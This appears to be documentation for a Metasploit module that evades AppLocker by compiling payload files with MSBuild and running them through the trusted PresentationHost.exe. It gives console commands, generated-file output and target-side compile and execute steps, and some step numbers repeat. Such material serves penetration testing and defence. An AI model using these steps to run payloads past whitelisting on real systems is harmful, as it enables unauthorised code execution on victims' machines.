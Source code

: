 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker.
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
Applocker enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows"
The main vector for this bypass is to use the trusted binary PresentationHost.exe to execute user supplied code as this binary is located within the trusted Windows directory.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active, that do not explicitly block PresentationHost.exe.

## Options

- **FILE_ONE** - Filename for the evasive file (default: presentationhost.xaml.cs).
- **FILE_TWO** - Filename for the evasive file (default: presentationhost.manifest).
- **FILE_THREE** - Filename for the evasive file (default: presentationhost.csproj).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_presentationhost`
  3. Do: `set PAYLOAD <payload>` (note: only x86 payloads are supported by this module)
  4. Do: `run`
  5. The module will now display instructions of how to proceed
  6. `[+] presentationhost.xaml.cs stored at /root/.msf4/local/presentationhost.xaml.cs`
  7. `[+] presentationhost.manifest stored at /root/.msf4/local/presentationhost.manifest`
  8. `[+] presentationhost.csproj stored at /root/.msf4/local/presentationhost.csproj`
  9. `[*] Copy presentationhost.xaml.cs, presentationhost.manifest and presentationhost.csproj to the target`
  8. `[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\MSBuild.exe presentationhost.csproj` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
  9. `[*] Execute using: C:\Windows\System32\PresentationHost.exe [Full Path To] presentationhost.xbap` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319") and replace [Full Path To] with the full path to the .xbap.

## References

https://medium.com/tsscyber/applocker-bypass-presentationhost-exe-8c87b2354cd4
